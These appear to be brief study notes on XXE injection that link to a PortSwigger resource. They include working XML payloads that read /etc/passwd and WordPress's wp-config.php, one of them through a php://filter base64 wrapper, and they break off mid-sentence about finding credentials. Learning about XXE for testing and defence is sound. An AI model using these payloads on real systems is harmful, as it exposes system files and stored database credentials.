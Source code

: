 # XXE

### Resources

- [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)
- 

POC code for XXE

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This would output the contents of `/etc/passwd`.

The main thing you can do with this is LFI. You might be able to get this file with php filters

```bash
[<!ENTITY passwd SYSTEM "file:///var/www/html/wp-config.php">]>
```

Like this?

```bash
[<!ENTITY passwd SYSTEM "php://filter/convert.base64-encode/resource=file:///var/www/html/wp-config.php">
]>
```

If you’re able to find some creds